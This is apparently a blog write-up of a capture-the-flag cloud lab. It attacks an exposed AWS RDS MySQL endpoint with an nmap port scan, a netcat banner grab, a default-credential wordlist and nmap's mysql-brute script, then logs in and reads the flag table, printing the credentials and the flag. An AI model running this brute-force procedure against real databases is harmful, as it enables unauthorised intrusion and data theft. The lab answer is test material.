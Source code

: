 ```yaml
---
layout: post
title:  "Pillage Exposed RDS Instances"
date:   2024-06-27 21:39:54 +0530
---
```


# Initial Entry

The scenario here is in the backdrop of rising cybersecurity threats, with chatter on Telegram channels hinting at data dumps and Pastebin snippets exposing snippets of configurations, Huge Logistics is taking no chances. They’ve enlisted your team’s expertise to rigorously assess their cloud infrastructure. Armed with a list of IP addresses and endpoints, a lead emerged — an RDS endpoint: `exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`. Your mission? Dive deep into this endpoint’s security, and identify any security issues before threat actors do.

  

## Understand what is RDS

Amazon RDS is defined as a Relation database services in more of distributed way.. Kind of service offering from AWS to simply the setup, operational changes and scaling of application and one thing to remember is Amazon RDS supports PostgreSQL, MySQL, Maria DB, Oracle, SQL Server, and Amazon Aurora

  

## Approaching for a solution 

With the following RDS instance URL: [exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com](https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com "https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com") we will do a simple nmap scan on top 1000 ports and as a result, we can see that port 3306 is open and runs a mysql server 

  

```bash
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh$ nmap -sV -Pn --top 1000 -vvv exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-16 21:00 PST
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 21:00
Completed Parallel DNS resolution of 1 host. at 21:00, 0.29s elapsed
DNS resolution of 1 IPs took 0.29s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:00
Scanning exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68) [1000 ports]
Discovered open port 3306/tcp on 16.171.94.68
Completed Connect Scan at 21:01, 42.93s elapsed (1000 total ports)
Initiating Service scan at 21:01
Scanning 1 service on exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Completed Service scan at 21:01, 25.40s elapsed (1 service on 1 host)
NSE: Script scanning 16.171.94.68.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:01
Completed NSE at 21:01, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:01
Completed NSE at 21:01, 0.35s elapsed
Nmap scan report for exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Host is up, received user-set (0.17s latency).
rDNS record for 16.171.94.68: ec2-16-171-94-68.eu-north-1.compute.amazonaws.com
Scanned at 2024-02-16 21:00:26 PST for 69s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
3306/tcp open  mysql?  syn-ack
```

Look into banner grabbing through netcat, we found that `mysql_native_password`  is supported and what that means is it is authentication mechanism used in mysql when you enter the password it get converted into some kind of kind hash using a method called password native hashing and later when the user enters the password again it is converted into hash format and compared with the stored hash.. If it is validated and verified, user will get loggedin 

  

```bash
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh$ nc exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com 3306
J
8.0.32��
       QD]R<�����bAd;F1B*mysql_native_password2
```

  

We can also do the username and password manually but it is time consuming and so, we are automating it using nmap’s mysql-brute script for that we need to do a similiar setups like firstly need a wordlist and for that we are utilizing seclists and setup the delimiter between of the wordlist because it is in the format of `root:root`  where the nmap script supports if it is in a particular format `root/root` 

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$  wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -O mysql-creds.txt
--2024-02-16 21:30:46--  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 343 [text/plain]
Saving to: ‘mysql-creds.txt’

mysql-creds.txt               100%[=================================================>]     343  --.-KB/s    in 0s

2024-02-16 21:30:46 (51.9 MB/s) - ‘mysql-creds.txt’ saved [343/343]

r4y@DESKTOP-3KBF4H7:/tmp$ sed -i 's/:/\//g' mysql-creds.txt
r4y@DESKTOP-3KBF4H7:/tmp$ cat mysql-creds.txt
root/mysql
root/root
root/chippc
admin/admin
root/
root/nagiosxi
root/usbw
cloudera/cloudera
root/cloudera
root/moves
moves/moves
root/testpw
root/p@ck3tf3nc3
mcUser/medocheck123
root/mktt
root/123
dbuser/123
asteriskuser/amp109
asteriskuser/eLaStIx.asteriskuser.2oo7
root/raspberry
root/openauditrootuserpassword
root/vagrant
root/123qweASD#
```

  

With the nmap, we can bruteforce with the `mysql-brute`  script and additonally you can pass the wordlist which we have edited through `brute.credfile` params.. After nmap scan is completed, we found ou valid credentials for the database which is `dbuser:123`⁠

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$ nmap -Pn -p3306 --script=mysql-brute --script-args brute.delay=10,brute.mode=creds,brute.credfile=mysql-creds.txt exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-16 21:35 PST
Nmap scan report for exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Host is up (0.16s latency).
rDNS record for 16.171.94.68: ec2-16-171-94-68.eu-north-1.compute.amazonaws.com

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-brute:
|   Accounts:
|     dbuser:123 - Valid credentials
|_  Statistics: Performed 23 guesses in 33 seconds, average tps: 0.8

Nmap done: 1 IP address (1 host up) scanned in 33.24 seconds
```

  

In mysql commandline on to your host machine and with the following we can able to connect to the host [`exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`](https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com "https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com") with the username as `dbuser` and our password will be `123`⁠

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$ mysql -h exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com -u dbuser -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 311539
Server version: 8.0.32 Source distribution

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

  

Let’s check the permissions or grants of `dbuser`  with the following query `SHOW GRANTS FROM “dbuser”;`  where it will show what it has access to and we have access `user_info` database and in the you can enumerate users table or flag as well

  

```bash
mysql> SHOW GRANTS FOR "dbuser"
    -> ;
+-----------------------------------------------------+
| Grants for dbuser@%                                 |
+-----------------------------------------------------+
| GRANT USAGE ON *.* TO `dbuser`@`%`                  |
| GRANT SELECT ON `user_info`.`flag` TO `dbuser`@`%`  |
| GRANT SELECT ON `user_info`.`users` TO `dbuser`@`%` |
+-----------------------------------------------------+
3 rows in set (0.18 sec)
```

  

Let’s change the database by entering query which is `use user_info;`  and once the database is changed, try disclosing the table susing `show tables`⁠

  

```bash
mysql> use user_info;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_user_info |
+---------------------+
| flag                |
| users               |
+---------------------+
2 rows in set (0.18 sec)
```

  

We got our flag with the following query `SELECT * FROM flag` 

```bash
mysql> select * from flag
    -> ;
+----------------------------------+
| flag                             |
+----------------------------------+
| e1c342d58b6933b3e0b5078174fd5a62 |
+----------------------------------+
1 row in set (0.17 sec)
```